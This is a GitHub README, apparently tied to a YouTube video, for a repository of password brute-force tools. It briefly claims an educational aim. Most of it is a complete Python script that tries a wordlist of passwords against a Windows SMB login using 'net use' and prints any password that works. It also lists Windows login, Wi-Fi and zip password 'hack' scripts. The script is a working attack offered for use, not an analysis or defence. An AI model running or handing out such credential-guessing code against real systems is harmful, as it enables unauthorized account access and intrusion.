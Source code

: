 # Brute-force attack

**Author:** Peyman Majidi Moein (aka Peymanx) and Ai

This project is related to a YouTube video on the [peymanxa](https://www.youtube.com/@peymanxa) channel.

## Table of Contents

- [Introduction](#introduction)
- [Sample Code](#sample-code)
- [Content List](#content-list)
- [License](#license)

## Introduction

This repository contains various scripts and tools for performing brute-force attacks on different systems. The primary goal is to demonstrate the vulnerabilities and educate users on the importance of strong passwords and security measures.

## Sample Code

```python
import os
from tqdm import tqdm
from colorama import Fore, Style, init

# Initialize colorama
init()
os.system('title @peymanx Windows Login Password Brute-force attack')

def connect_to_smb(ip, username, password):
    command = f'net use \\\\{ip} /user:{username} {password} >nul 2>&1'
    result = os.system(command)
    return result == 0

def read_passwords(file_path):
    with open(file_path, 'r') as file:
        passwords = file.readlines()
    return [password.strip() for password in passwords]

def main():
    ip = '127.0.0.1'
    username = 'peymanx'
    password_file = './passwords/common.txt'

    passwords = read_passwords(password_file)
    total_passwords = len(passwords)

    max_password_length = max(len(password) for password in passwords)
    with tqdm(total=total_passwords, desc="Trying passwords", unit="password") as pbar:
        for password in passwords:
            padded_password = password.ljust(max_password_length)
            pbar.set_description(f"{Fore.YELLOW}Trying password: {padded_password}{Style.RESET_ALL}")
            if connect_to_smb(ip, username, password):
                print(f'\n{Fore.GREEN}{"*"*70}')
                print(f'{Fore.GREEN}Successfully connected!')  # Blinking text
                print(f'{Fore.GREEN}Password: \'\033[5m{password}\033[0m{Fore.GREEN}\'')  # Blinking text
                print(f'{Fore.GREEN}{"*"*70}{Style.RESET_ALL}\n')
                break
            pbar.update(1)
        else:
            print(f'\n{Fore.RED}Password not found{Style.RESET_ALL}')

if __name__ == '__main__':
    main()
```

## Content List

- **passwords**
  - More password samples added (Jan 17, 2025)
- **login_hack.py**
  - Windows login hack 
- **wifi_hack.py**
  - WiFi hack 
- **zip_hack.py**
  - Compressed file password hack 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

